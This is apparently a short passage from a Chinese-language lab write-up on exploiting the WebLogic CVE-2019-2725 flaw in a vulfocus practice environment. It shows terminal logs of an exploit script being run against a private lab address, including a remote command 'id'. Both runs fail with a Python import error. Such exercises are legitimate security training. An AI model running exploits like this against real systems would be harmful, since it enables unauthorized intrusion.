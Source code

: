 ![1748219050543](image/weblogic-cve_2019_2725/1748219050543.png)

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 weblogic_cve_2019_2725_exploit.py -t http://10.37.133.3:7001 -v

Traceback (most recent call last):
  File "/home/kali/ctf-games/fofapro/vulfocus/weblogic_cve_2019_2725_exploit.py", line 11, in <module>
    from urllib3.packages.urllib3.exceptions import InsecureRequestWarning
ModuleNotFoundError: No module named 'urllib3.packages'
                                                                                                                                               
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 weblogic_cve_2019_2725_exploit.py -t http://10.37.133.3:7001 -c "id"

Traceback (most recent call last):
  File "/home/kali/ctf-games/fofapro/vulfocus/weblogic_cve_2019_2725_exploit.py", line 11, in <module>
    from urllib3.packages.urllib3.exceptions import InsecureRequestWarning
ModuleNotFoundError: No module named 'urllib3.packages'
```

**问题分析**:
